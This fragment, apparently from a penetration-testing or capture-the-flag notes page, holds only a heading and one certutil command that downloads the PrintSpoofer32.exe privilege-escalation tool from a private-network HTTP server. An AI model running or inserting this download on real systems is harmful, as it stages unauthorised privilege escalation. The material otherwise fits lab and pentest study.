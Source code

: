 

## Download

```
 certutil -urlcache -split -f "http://10.17.68.184:8000/PrintSpoofer32.exe" PrintSpoofer32.exe
```